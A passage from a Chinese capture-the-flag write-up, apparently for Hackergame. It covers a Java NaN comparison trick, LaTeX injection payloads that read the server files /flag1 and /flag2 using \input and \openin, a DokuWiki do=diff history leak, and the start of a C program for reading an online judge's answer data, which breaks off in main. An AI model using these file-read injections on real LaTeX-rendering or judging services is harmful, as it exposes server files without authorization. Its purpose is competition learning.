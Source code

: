 然后 Java 的 Double 类型有 `NaN`，不可比较大小，在题目条件下会被当成正确，传入即可。

> ~~个人不喜欢 KFC 的嫩牛五方。~~

## LaTeX 机器人

### 纯文本

```latex
$$ \input{/flag1} $$
```

### 特殊字符混入

这题我也忘了从哪搜了个 `catcode` 出来... Anyhow, it works.

```latex
$$ \catcode`\_=12 \catcode`\#=12 \newread\file \openin\file=/flag2 \loop\unless\ifeof\file \read\file to\fileline \fileline \repeat \closein\file $$
```

## Flag 的痕迹

[splitbrain/dokuwiki#3421](https://github.com/splitbrain/dokuwiki/issues/3421) 有提到 `do=diff`，试了下没禁用。

## 安全的在线测评

### 无法 AC 的题目

静态数据因为权限问题可以直接读。

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <ctype.h>

// copied from random stackoverflow answer
// sorry I can't find the link now
char *trimwhitespace(char *str)
{
    char *end;

    // Trim leading space
    while (isspace((unsigned char)*str))
        str++;

    if (*str == 0) // All spaces?
        return str;

    // Trim trailing space
    end = str + strlen(str) - 1;
    while (end > str && isspace((unsigned char)*end))
        end--;

    // Write new null terminator character
    end[1] = '\0';

    return str;
}

int main() {

    FILE *fp;
```